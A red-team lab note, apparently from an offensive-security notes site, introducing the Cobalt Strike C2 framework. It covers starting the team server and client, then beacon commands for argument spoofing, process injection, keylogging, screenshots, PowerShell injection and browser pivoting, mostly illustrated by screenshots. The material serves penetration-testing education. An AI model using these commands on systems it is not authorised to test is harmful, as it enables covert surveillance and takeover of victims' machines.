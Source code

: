 # Cobalt Strike 101

This lab is for exploring the advanced penetration testing / post-exploitation tool Cobalt Strike.

{% hint style="info" %}
WIP
{% endhint %}

## Definitions

* Listener - a service running on the attacker's C2 server that is listening for beacon callbacks
* Beacon - a malicious agent / implant on a compromised system that calls back to the attacker controlled system and checks for any new commands that should be executed on the compromised system
* Team server - Cobalt Strike's server component. Team server is where listeners for beacons are set up. Team server allows attackers instructing beacons to execute commands such as record keystrokes, dump passwords, etc on compromised systems.

## Getting Started

Cobalt Strike has client and server side components to it. First, we need to run the team server.

### Team Server

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
# the syntax is ./teamserver <serverIP> <password> <~killdate> <~profile>
# ~ optional for now
root@/opt/cobaltstrike# ./teamserver 10.0.0.5 password
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-06-22-47-10.png)

{% hint style="info" %}
Note that in real life red team engagements, you would most likely use redirectors to add some resilience to your infrastructure. See [Red Team Infrastructure](red-team-infrastructure/)
{% endhint %}

### Cobalt Strike Client

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
root@/opt/cobaltstrike# ./cobaltstrike
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Enter the following:

* host - team server IP or DNS name
* user - anything you like - it's just a nickname
* password - your team server password

![](../.gitbook/assets/screenshot-from-2019-01-06-22-51-40.png)

### Demo

![](../.gitbook/assets/peek-2019-01-06-22-56.gif)

## Setting Up Listener

![](../.gitbook/assets/peek-2019-01-07-18-01.gif)

## Generating a Stageless Payload

![](../.gitbook/assets/peek-2019-01-07-18-03.gif)

## Receiving First Call Back

![](../.gitbook/assets/peek-2019-01-07-18-15.gif)

## Interacting with Beacon

![](../.gitbook/assets/screenshot-from-2019-01-07-18-22-38.png)

## Interesting Commands & Features

### Argue

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> argue calc /spoofed
beacon> run calc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-19-18-23.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-19-09-47.png)

{% page-ref page="../offensive-security-experiments/masquerading-processes-in-userland-through-\_peb.md" %}

{% page-ref page="../memory-forensics/process-environment-block.md" %}

### Inject

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

inject 776 x64 httplistener
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/peek-2019-01-07-20-16.gif)

### Keylogger

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> keylogger 1736 x64
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-20-31-30.png)

### Screenshot

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> screenshot 1736 x64
```
{% endcode-tabs-item %}
{% endcode-tabs %}



![](../.gitbook/assets/screenshot-from-2019-01-07-20-33-51.png)

### Runu

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
runu 2316 calc
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-20-39-20.png)

### Psinject

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> psinject 2872 x64 get-childitem c:\
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-20-44-30.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-20-52-16.png)

### Spawnu

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> spawnu 3848 httplistener
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-20-57-30.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-20-57-25.png)

### Browser Pivoting

{% code-tabs %}
{% code-tabs-item title="attacker@cs" %}
```csharp
beacon> browserpivot 244 x86
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-01-07-21-23-50.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-21-33-54.png)

![](../.gitbook/assets/peek-2019-01-07-21-36.gif)

### System Profiler

![](../.gitbook/assets/screenshot-from-2019-01-07-21-52-32.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-21-52-50.png)

![](../.gitbook/assets/screenshot-from-2019-01-07-21-52-58.png)





